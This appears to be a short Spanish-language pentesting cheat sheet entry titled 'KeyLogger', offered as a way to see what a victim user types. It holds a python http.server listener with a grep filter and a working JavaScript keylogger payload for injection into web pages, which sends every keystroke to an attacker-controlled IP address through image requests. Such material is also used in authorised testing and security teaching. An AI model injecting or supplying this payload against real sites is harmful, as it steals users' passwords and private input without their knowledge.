 # KeyLogger

Script en js para ver que está tecleando el usuario victima

```
python3 -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'
```

```
<script>
        var k = "";
        document.onkeypress = function(e){
                e = e || window.event;
                k += e.key;
                var i = new Image();
                i.src = "http://192.168.1.173/" + k;
        };
</script>
```

<div align="left">

<figure><img src="../../../../.gitbook/assets/image (2).png" alt="" width="487"><figcaption></figcaption></figure>

</div>
